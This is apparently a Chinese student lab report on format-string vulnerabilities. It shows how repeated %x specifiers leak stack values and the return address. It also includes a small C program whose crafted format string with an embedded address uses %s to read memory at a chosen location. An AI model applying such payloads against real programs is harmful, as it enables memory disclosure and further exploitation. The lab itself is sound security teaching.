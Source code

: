 修改代码，将format长度改为288，并将96个%8x拷贝到format中，编译调试，运行到printf结束，成功输出main函数栈帧返回地址。

![image-20221201162325664](2022-12-1-%E6%A0%BC%E5%BC%8F%E5%8C%96%E8%BE%93%E5%87%BA%E5%AE%9E%E9%AA%8C/image-20221201162325664.png)

### (二) MemoryView

#### 1. 静态分析

```c++
#include<stdio.h>
#include<stdlib.h>
#include<string.h>

int main(){
	__asm int 3
	char format[40];
	strcpy(format,"\x44\x10\xE6\x77%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%s");
	printf(format,1,2,3);
	return 0;
}
```

使用%x从栈中不断取值直到提供的\x44\x10\xE6\x77处取到%s，则此时从地址77E61044处取字符串并输出。

#### 2. 动态分析

编译调试，运行到printf后成功输出字符串。

![image-20221201163457470](2022-12-1-%E6%A0%BC%E5%BC%8F%E5%8C%96%E8%BE%93%E5%87%BA%E5%AE%9E%E9%AA%8C/image-20221201163457470.png)
